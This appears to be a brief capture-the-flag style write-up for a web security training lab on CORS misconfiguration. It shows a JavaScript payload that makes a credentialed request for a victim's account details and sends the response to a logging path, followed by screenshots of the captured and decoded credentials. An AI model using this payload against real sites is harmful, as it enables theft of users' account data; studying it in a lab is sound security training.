 1. The following script is delivered to the victim:

```
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
	   location='/log?key='+this.responseText;
	};
</script>
```

2. After supposedly executing the script on victims machine his credentials get logged:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902320-15feb06d-f392-40da-9c8d-b718e698a4df.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
